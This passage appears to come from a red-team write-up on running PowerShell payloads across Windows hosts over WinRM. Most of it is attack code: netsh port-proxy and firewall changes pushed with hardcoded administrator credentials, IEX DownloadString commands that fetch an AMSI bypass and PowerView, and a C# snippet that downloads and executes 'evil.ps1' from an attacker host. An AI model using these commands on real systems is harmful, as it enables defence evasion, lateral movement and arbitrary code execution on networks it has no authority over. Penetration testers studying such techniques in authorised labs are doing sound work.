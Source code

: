* If required, on **PC-2**, even with PowerShell Constrained Language Mode, it should be possible to issue a netsh command, like:

```powershell
$pass=(ConvertTo-SecureString "Passw0rd!" -AsPlainText -Force); 
$cred=(New-Object System.Management.Automation.PSCredential("test.local\Administrator", $pass)); 
Invoke-Command -ComputerName pc-2.test.local -Credential $cred -ScriptBlock {
    netsh interface portproxy add v4tov4 listenport=8080 listenaddress=0.0.0.0 connectport=8080 connectaddress=10.0.0.X
    netsh advfirewall firewall add rule name="My Sweet Local Port" dir=in action=allow protocol=TCP localport=8080
}
```

After that, it should be possible to bypass AMSI and execute any payload using the following commands:

```powershell
$pass=(ConvertTo-SecureString "Passw0rd!" -AsPlainText -Force); 
$cred=(New-Object System.Management.Automation.PSCredential("test.local\Administrator", $pass)); 
Invoke-Command -ComputerName pc-2.test.local -Credential $cred -ScriptBlock {
    # AMSI bypass
    IEX (New-Object Net.WebClient).DownloadString('http://127.0.0.1:8080/A.m.s.i.Bypass.ps1')
    # Import other modules or execute other scripts
    IEX (New-Object Net.WebClient).DownloadString('http://127.0.0.1:8080/PowerView.ps1')
    # Whatever needed 
}
```

However, if anything goes wrong, it might prove impossible to use any payload at all on that target. 

To overcome this potential issue, and even more to simplify this process, C# can be used to do all the heavy lift and let the attacker do more interesting stuff. The concept is very simple, and consist into avoiding any connection at all from the target server. In order to do that, it is necessary to let **PC-1** downloading all the scripts needed, passing them all to **PC-2** using the only allowed connection: **WS-Management on tcp/5985**.

#### Implementing a remote "Import-Module"

The general technique used to import arbitrary modules and PowerShell scripts, uses the old and stable `Invoke-Expression` trick. In order to avoid an outgoing connection from the remote target, though, it is necessary to have an already available stringified copy of the script that should be imported.

As an example, please consider the following snippet:

```csharp
PowerShell ps = PowerShell.Create();
# Downloading module/script
string script = (new WebClient()).DownloadString('http://attackerip/evil.ps1');
# Import template
string code = String.Format("IEX {0}", script);
# Transferring script to the remote process
ps.AddScript(code).Invoke();
```
